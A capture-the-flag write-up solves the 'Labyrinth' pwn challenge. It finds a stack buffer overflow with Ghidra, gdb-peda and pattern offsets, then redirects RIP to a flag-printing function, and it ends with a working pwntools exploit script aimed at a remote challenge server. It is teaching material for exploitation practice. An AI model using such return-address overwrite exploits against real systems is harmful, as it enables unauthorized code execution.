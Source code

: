 # [Pwn - easy] Labyrinth
A 64-bit binary file is given, and the equivalent made available via TCP.

```bash
┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ file labyrinth
labyrinth: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=86c87230616a87809e53b766b99987df9bf89ad8, for GNU/Linux 3.2.0, not stripped

┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ checksec --file=labyrinth
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   RW-RUNPATH   83 Symbols	  No	0		4		labyrinth
```

Opening the binary with [Ghidra](https://ghidra-sre.org/) reveals that this binary is about buffer overflow via `fgets` reading `0x44` bytes.

![ghidra](./img/pwn_labyrinth_1.png)

At the adress `0x00401255` there's an `escape_plan` function that will read the flag from file and print it.

![escape_plan](./img/pwn_labyrinth_2.png)

The aim is thus to reach `fgets` by inputing `069`, then overflow `local_38` in order to control the `RIP` Instruction Pointer. The value to set in `RIP` will be an address in the `escape_plan` function, around the address `0x00401255`. Since the binary is a 64-bits `LSB` (Little Endian, Least Significant Byte), addresses will need to be reversed a be on 8 octets: for instance here `\x55\x12\x40\x00\x00\x00\x00\x00`.

Giving it a try with [gdb-peda](https://github.com/longld/peda), with a pattern of length `68` (the `0x44` in `fgets`), gives us the info that `RBP` is overriden at an offset of 48.

```bash
┌──(vagrant㉿kali)-[~]
└─$ msf-pattern_create -l 68
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac

┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ gdb ./labyrinth
[...]
gdb-peda$ r <<< $(python -c "print('069\n'+'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac')")
[...]

▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒     O     ▒          ▒
▒-▸        ▒    '|'    ▒          ▒
▒-▸        ▒    / \    ▒          ▒
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒

Select door:

Door: 001 Door: 002 Door: 003 Door: 004 Door: 005 Door: 006 Door: 007 Door: 008 Door: 009 Door: 010
Door: 011 Door: 012 Door: 013 Door: 014 Door: 015 Door: 016 Door: 017 Door: 018 Door: 019 Door: 020
Door: 021 Door: 022 Door: 023 Door: 024 Door: 025 Door: 026 Door: 027 Door: 028 Door: 029 Door: 030
Door: 031 Door: 032 Door: 033 Door: 034 Door: 035 Door: 036 Door: 037 Door: 038 Door: 039 Door: 040
Door: 041 Door: 042 Door: 043 Door: 044 Door: 045 Door: 046 Door: 047 Door: 048 Door: 049 Door: 050
Door: 051 Door: 052 Door: 053 Door: 054 Door: 055 Door: 056 Door: 057 Door: 058 Door: 059 Door: 060
Door: 061 Door: 062 Door: 063 Door: 064 Door: 065 Door: 066 Door: 067 Door: 068 Door: 069 Door: 070
Door: 071 Door: 072 Door: 073 Door: 074 Door: 075 Door: 076 Door: 077 Door: 078 Door: 079 Door: 080
Door: 081 Door: 082 Door: 083 Door: 084 Door: 085 Door: 086 Door: 087 Door: 088 Door: 089 Door: 090
Door: 091 Door: 092 Door: 093 Door: 094 Door: 095 Door: 096 Door: 097 Door: 098 Door: 099 Door: 100

>>
You are heading to open the door but you suddenly see something on the wall:

"Fly like a bird and be free!"

Would you like to change the door you chose?

>>
[-] YOU FAILED TO ESCAPE!


Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ea7a37 (<write+23>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0x7fffffffc0d0 --> 0x6d31333b315b1b0a
RDI: 0x7fffffffbfb0 --> 0x7ffff7df50d0 (<funlockfile>:	endbr64)
RBP: 0x6241376241366241 ('Ab6Ab7Ab')
RSP: 0x7fffffffe228 ("8Ab9Ac0Ac1A")
RIP: 0x401602 (<main+509>:	ret)
R8 : 0x23 ('#')
R9 : 0x7fffffff
R10: 0x0
R11: 0x246
R12: 0x7fffffffe338 --> 0x7fffffffe5fd ("/vagrant/ctf/pwn/challenge/labyrinth")
R13: 0x401405 (<main>:	push   rbp)
R14: 0x0
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4015f7 <main+498>:	call   0x4010c0 <fprintf@plt>
   0x4015fc <main+503>:	mov    eax,0x0
   0x401601 <main+508>:	leave
=> 0x401602 <main+509>:	ret
   0x401603:	cs nop WORD PTR [rax+rax*1+0x0]
   0x40160d:	nop    DWORD PTR [rax]
   0x401610 <__libc_csu_init>:	push   r15
   0x401612 <__libc_csu_init+2>:	lea    r15,[rip+0x2727]        # 0x403d40
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe228 ("8Ab9Ac0Ac1A")
0008| 0x7fffffffe230 --> 0x413163 --> 0x0
0016| 0x7fffffffe238 --> 0x401405 (<main>:	push   rbp)
0024| 0x7fffffffe240 --> 0x100000000
0032| 0x7fffffffe248 --> 0x7fffffffe338 --> 0x7fffffffe5fd ("/vagrant/ctf/pwn/challenge/labyrinth")
0040| 0x7fffffffe250 --> 0x0
>0048| 0x7fffffffe258 --> 0xc4cd354ce8e5d3cf
0056| 0x7fffffffe260 --> 0x7fffffffe338 --> 0x7fffffffe5fd ("/vagrant/ctf/pwn/challenge/labyrinth")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401602 in main ()
```

![escape_plan](./img/pwn_labyrinth_3.png)

```bash
┌──(vagrant㉿kali)-[~]
└─$ msf-pattern_offset  -l 68 -q 6241376241366241
[*] Exact match at offset 48
```

Since `RIP` is 8 bytes from `RBP`, in order to override it the first part of input is `"069\n" + "A"*48 + "B*8"`. However we hit a snag with the adress to override `RIP` with: the first instruction of `escape plan` is `push %rbp`.

```bash
┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ objdump -D labyrinth | grep -A5 escape_plan
0000000000401255 <escape_plan>:
  401255:	55                   	push   %rbp
  401256:	48 89 e5             	mov    %rsp,%rbp
  401259:	48 83 ec 10          	sub    $0x10,%rsp
  40125d:	bf 0a 00 00 00       	mov    $0xa,%edi
  401262:	e8 c9 fd ff ff       	call   401030 <putchar@plt>
```

Since it was overridden by a bunch of Bs, it leads to a SEGFAULT. Let's take the next instruction's address: `0x401256`. The input becomes: `"069\n" + "A"*48 + "B*8" + "\x56\x12\x40\x00\x00\x00\x00\x00"`. Testing it locally with `gdb-peda` gives the flag:

```bash
gdb-peda$ r <<< $(python -c "print('069\n'+'A'*48 + 'B'*8 + '\x56\x12\x40\x00\x00\x00\x00\x00')")
[...]
Congratulations on escaping! Here is a sacred spell to help you continue your journey:
HTB{f4k3_fl4g_4_t35t1ng}
```

The final exploit looks like:

```python
from pwn import *

r = remote('138.68.162.218',30843)
lol = r.readuntil(b'>> ')
# print(lol)
r.send(b'069' + b"\n")
lol = r.readuntil(b'>> ')
r.send(b'A'*48 + b'B'*8 + b'\x56\x12\x40\x00\x00\x00\x00\x00')
r.send(b"\n")
lol=r.readall()
print(lol)
r.close()
```

And gives the flag!

![flag](./img/pwn_labyrinth_4.png)
